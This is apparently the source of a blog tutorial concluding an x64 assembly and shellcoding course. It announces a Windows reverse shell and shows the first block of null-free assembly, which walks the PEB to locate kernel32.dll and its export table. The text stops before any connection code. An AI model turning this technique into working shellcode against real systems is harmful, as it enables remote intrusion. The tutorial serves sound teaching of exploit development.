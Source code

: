 ```yaml
---
title:  "x64 Assembly &amp; Shellcoding 101 - Conclusion"
header:
  teaser: "/assets/images/conclusion.png"
categories:
  - Shellcoding
  - Assembly
  - Debugging
tags:
  - Shellcoding
  - x64
  - x64dbg
  - '2024'
  - nasm
  - assembly
  - debugging
---
```


Well it's been a fun ride, but we've reached our destination. 🚗 Time to wrap things up with our Assembly and Shellcoding 101 course and move on to the next exciting topic on this blog.  Don't know what that's going to be just yet, but I have some ideas 😸 

Today, we will focus on coding a reverse shell in pure x64 assembly, complimented by NULL free shellcode to close out this series.  This is sort of like a final exam to see what all you've learned up until this point 😃, and honestly I wouldn't dock you points if today's content seems a bit overwhelming.  An x64 assembly based reverse shell requires a lot of apis and an all around solid understanding of x64 assembly concepts.  Today's code is long, but I tailored it in such a way that you can follow along without getting a headache along the way.  

Let's begin!

***The Familiar x64 Assembly Prologue***
-

```nasm
BITS 64
SECTION .text
global main
main:
sub rsp, 0x28                       ; stack alignment
and rsp, 0xFFFFFFFFFFFFFFF0         ; stack alignment
xor rcx, rcx                        ; RCX = 0
mov rax, [gs:rcx + 0x60]            ; RAX = PEB
mov rax, [rax + 0x18]               ; RAX = PEB->Ldr
mov rsi,[rax+0x10]                  ; PEB.Ldr->InLoadOrderModuleList
mov rsi, [rsi]
mov rsi,[rsi]
mov rbx, [rsi+0x30]                 ; kernel32.dll base address
mov r8, rbx                         ; mov kernel32.dll base addr into r8
mov ebx, [rbx+0x3C]                 ; Get Kernel32 PE Signature (offset 0x3C) into EBX
add rbx, r8                         ; Add signature offset to kernel32 base. Store in RBX.
xor rcx, rcx                        ; Avoid null bytes from mov edx,[rbx+0x88] by using rcx register to add
add cx, 0x88ff                      ; cx is the lower 16 bit portion of ecx (32 bit), and rcx is 64 bit.
shr rcx, 0x8                        ; RCX = 0x88ff --> 0x88
mov edx, [rbx+rcx]                  ; EDX = [&NewEXEHeader + Offset RVA ExportTable] = RVA ExportTable
add rdx, r8                         ; RDX = kernel32.dll + RVA ExportTable = ExportTable Address
mov r10d, [rdx+0x14]                ; Number of functions
xor r11, r11                        ; Zero R11 before use
mov r11d, [rdx+0x20]                ; AddressOfNames RVA
add r11, r8                         ; AddressOfNames VMA
mov rcx, r10                        ; store number of functions for future use
```